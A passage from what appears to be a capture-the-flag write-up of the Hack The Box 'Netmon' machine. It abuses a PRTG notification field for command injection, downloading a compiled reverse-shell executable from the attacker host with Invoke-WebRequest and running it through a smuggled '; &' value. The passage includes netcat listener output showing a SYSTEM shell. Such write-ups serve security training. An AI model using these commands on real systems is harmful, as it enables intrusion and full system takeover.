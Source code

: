 ![232488998.png]({{site.baseurl}}/Images/Netmon/232488998.png)

Save the notification and head back on our attacking machine set up an ICMP listener to see if we get any ping requests from the target:
```
root@kali: tcpdump -nni tun0 icmp
```
Once the listener is set up manually trigger the notification by clicking on the row of the new notification and then clicking the Test notification button on the right

![232489006.png]({{site.baseurl}}/Images/Netmon/232489006.png)

Click Ok in the modal window that pops up.

After a few seconds we start to see the ping requests come through:
```
root@kali: cpdump -nni tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
13:43:46.002919 IP 10.10.10.152 > 10.10.14.22: ICMP echo request, id 1, seq 101, length 40
13:43:46.002946 IP 10.10.14.22 > 10.10.10.152: ICMP echo reply, id 1, seq 101, length 40
13:43:47.019259 IP 10.10.10.152 > 10.10.14.22: ICMP echo request, id 1, seq 102, length 40
13:43:47.019288 IP 10.10.14.22 > 10.10.10.152: ICMP echo reply, id 1, seq 102, length 40
13:43:48.026426 IP 10.10.10.152 > 10.10.14.22: ICMP echo request, id 1, seq 103, length 40
13:43:48.026442 IP 10.10.14.22 > 10.10.10.152: ICMP echo reply, id 1, seq 103, length 40
13:43:49.032722 IP 10.10.10.152 > 10.10.14.22: ICMP echo request, id 1, seq 104, length 40
13:43:49.032736 IP 10.10.14.22 > 10.10.10.152: ICMP echo reply, id 1, seq 104, length 40
```
Great! we have command execution, time to transform this into a shell. We know that we have access to PowerShell, so lets use our trusty [rev.exe](https://github.com/thosearetheguise/rev) follow the instructions in the readme to compile an exe:
```
root@kali make ATTK_HOST=10.10.14.22 ATTK_PORT=443
```
Look in the `/build` directory for the compiled rev.exe. Now that we have our shell ready to go we need to get it on the box. 

We start by hosting the rev.exe with SimpleHTTPServer:
```
root@kali rev/build: python -m SimpleHTTPServer 80
```
Then update our notification to run the command:
```
Invoke-WebRequest http://10.10.14.22/rev.exe -OutFile C:\users\Public\Documents\thoseguys.exe
```

![232390727.png]({{site.baseurl}}/Images/Netmon/232390727.png)

Save and ‘test’ the notification and our SimpleHTTPServer will report that the rev.exe was downloaded. We can also head back to the Anonymous FTP connection to verify the file has been saved where we expected it to.

Now that we have our shell payload on the box all we need to do is set up a netcat listener and run the file:
```
root@kali: nc -nlvp 443
```
Update the notification again to be:
```
thoseguys.txt; & C:\Users\Public\Documents\thoseguys.exe
```
Run the notification and we get a reverse shell as `NT AUTHORITY\system`:
```
root@kali: nc -nlvp 443 
listening on [any] 443 ...
connect to [10.10.14.22] from (UNKNOWN) [10.10.10.152] 50126

Microsoft Windows [Version 10.0.14393]
```